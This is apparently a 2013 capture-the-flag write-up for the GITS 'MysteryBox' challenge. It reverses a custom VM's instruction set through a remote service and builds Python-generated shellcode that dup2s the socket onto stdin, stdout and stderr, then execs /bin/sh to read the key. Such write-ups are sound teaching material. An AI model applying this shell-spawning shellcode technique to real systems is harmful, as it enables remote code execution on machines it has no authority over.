 ```yaml
---
title: 'GITS 2013 Writeup: MysteryBox (re300)'
date: 2013-02-17T02:00:00+02:00
tags: ["CTF", "writeup", "hacking"]
draft: false
---
```


MysteryBox was a remote server disassembling and running its input data for an
unknown RISC-like CPU. As far as I know the unknown CPU is not a "real" CPU but
a VM made solely for this challenge. Here is an example of how to interact with
the remote MysteryBox service:

{{< highlight shell-session >}}
$ perl -e 'print "\x00\x00\x00\x00"' |
        nc mysterybox.2013.ghostintheshellcode.com 4242
09007800  ldb sp, sp, sp
Caught signal 11.  Program terminated.
 sp=0900bc08  r1=00000000  r2=00000000  r3=00000000  r4=00000000  r5=00000000
 r6=00000000  r7=00000000  r8=00000000  r9=00000000 r10=00000000 r11=00000000
r12=00000000 r13=00000000 r14=00000000 r15=00000000 r16=00000000 r17=00000000
r18=00000000 r19=00000000 r20=00000000 r21=00000000 r22=00000000 r23=00000000
r24=00000000 r25=00000000 r26=00000000 r27=00000000 r28=00000000 r29=00000000
 lr=00000000  ip=09007800  cc=ffff
{{< / highlight >}}

<!--more-->

We can see the remote service disassembled our `00 00 00 00` bytes to `ldb sp,
sp, sp` and crashed while executing it (crash dump `ip` points to our
instruction). After playing a bit with the disassembler, I figured out how
instructions were encoded, and ran a loop to get all the instructions supported
by this CPU:

```
00000000        ldb sp, sp, sp
01000000        stb sp, sp, sp
02000000        ldbu sp, sp, sp
03000000        stbu sp, sp, sp
04000000        ldsxb sp, sp, sp
05000000        ldi sp, 0
06000000        add sp, sp, sp
07000000        mulx sp, sp, sp, sp
08000000        div sp, sp, sp
09000000        and sp, sp, sp
0a000000        shl sp, sp, sp
0b000000        syscall 0  ; SYS_restart_syscall
0c000000        ldfs f0, sp, sp
0d000000        ldfsu f0, sp, sp
0e000000        fadd f0, f0, f0
0f000000        fmod f0, f0, f0
00400000        ldh sp, sp, sp
01400000        sth sp, sp, sp
02400000        ldhu sp, sp, sp
03400000        sthu sp, sp, sp
04400000        ldsxh sp, sp, sp
05400000        ldih sp, 0
06400000        sub sp, sp, sp
07400000        imulx sp, sp, sp, sp
08400000        idiv sp, sp, sp
09400000        or sp, sp, sp
0a400000        shr sp, sp, sp
0b400000        cmplt0 sp, sp
0c400000        ldfd f0, sp, sp
0d400000        ldfdu f0, sp, sp
0e400000        fsub f0, f0, f0
0f400000        fpow f0, f0, f0
00800000        ldw sp, sp, sp
01800000        stw sp, sp, sp
02800000        ldwu sp, sp, sp
03800000        stwu sp, sp, sp
04800000        ldsxbu sp, sp, sp
05800000        jmp 0x08a3b898
06800000        addx sp, sp, sp
07800000        mul sp, sp, sp
08800000        mod sp, sp, sp
09800000        xor sp, sp, sp
0a800000        rol sp, sp, sp
0b800000        icmplt0 sp, sp
0c800000        stfs f0, sp, sp
0d800000        stfsu f0, sp, sp
0e800000        fmul f0, f0, f0
0f800000        flog f0, f0, f0
00c00000        ldmw sp, sp, sp
01c00000        stmw sp, sp, sp
02c00000        ldmwu sp, sp, sp
03c00000        stmwu sp, sp, sp
04c00000        ldsxhu sp, sp, sp
05c00000        call 0x08a3b8d8
06c00000        subx sp, sp, sp
07c00000        mov sp, sp
08c00000        imod sp, sp, sp
09c00000        sar sp, sp, sp
0ac00000        ror sp, sp, sp
0bc00000        fcmplt0 f0, f0
0cc00000        stfd f0, sp, sp
0dc00000        stfdu f0, sp, sp
0ec00000        fdiv f0, f0, f0
0fc00000        ldfi f0, sp
```

More details about this architecture: it is little-endian, each instruction can
be made conditional (like ARM) and the result of an arithmetic operation can be
shifted left by up to 16 bits. While most instructions use 3 registers, some
also use one register and a 16 bit, sign-extended immediate. From there, I
started to experiment a bit and wrote a simple `write(4, "h", 1)` shellcode:

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | i) # ldi r1, [i]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x03040020)     # stbu r2, sp, r1
    return instrs

instrs = gen_string('h')
instrs += [
    0x05020004, # ldi r1, 4
    0x07c40000, # mov r2, sp
    0x05060001, # ldi r3, 1
    0x0b000004, # syscall SYS_write
]
{{< / highlight >}}

This works well, however our goal is to get a shell! For that, we need
to `execve("/bin/sh", { "/bin/sh", NULL }, NULL)`. But this is not
enough: `sh` tries to communicate using standard stdin/out/err FDs (0, 1, 2).
We need to write something to `dup2` our socket over these FDs:

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | i) # ldi r1, [i]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x03040020)     # stbu r2, sp, r1
    return instrs

def dup2(f, g):
    return [
        0x05020000 | f, # ldi r1, [f]
        0x05040000 | g, # ldi r2, [g]
        0x0b000000 | 63 # syscall SYS_dup2
    ]

instrs = []
instrs += dup2(4, 0)
instrs += dup2(4, 1)
instrs += dup2(4, 2)
instrs += gen_string('h')
instrs += [
    0x05020001, # ldi r1, STDOUT_FILENO
    0x07c40000, # mov r2, sp
    0x05060001, # ldi r3, 1
    0x0b000004, # syscall SYS_write
]
{{< / highlight >}}

Our write syscall is now using `STDOUT_FILENO` (aka. 1) and working fine, which
means our `dup2` calls are working. Now we need to `execve` our shell. This
shellcode stores `"/bin/sh"` at address `sp+16`, and stores `argv` (aka. `{
sp+16, 0 }`) at address `sp`. Note that the previous `gen_string` had a bug
because it was using `stbu` (store then update the pointer) instead
of `stb` (simply store).

{{< highlight python >}}
def gen_string(s):
    instrs = []
    for i, c in enumerate(s):
        c = ord(c)
        instrs.append(0x05020000 | (i + 16)) # ldi r1, [i+16]
        instrs.append(0x05040000 | c) # ldi r2,
        instrs.append(0x01040020)     # stb r2, sp, r1
    return instrs

def dup2(f, g):
    return [
        0x05020000 | f, # ldi r1, [f]
        0x05040000 | g, # ldi r2, [g]
        0x0b000000 | 63 # syscall SYS_dup2
    ]

instrs = []
instrs += dup2(4, 0)
instrs += dup2(4, 1)
instrs += dup2(4, 2)
instrs += gen_string('/bin/sh\x00')
instrs += [
    0x05020010, # ldi r1, 16
    0x06021000, # add r1, r1, sp
    0x05040004, # ldi r2, 4
    0x06042000, # add r2, r2, sp
    0x01863040, # stw r3, r3, r2
    0x07c40000, # mov r2, sp
    0x01823040, # stw r1, r3, r2
    0x0b00000b, # syscall SYS_execve
]
{{< / highlight >}}

With our shell we can now `cat key` to finally solve this challenge.

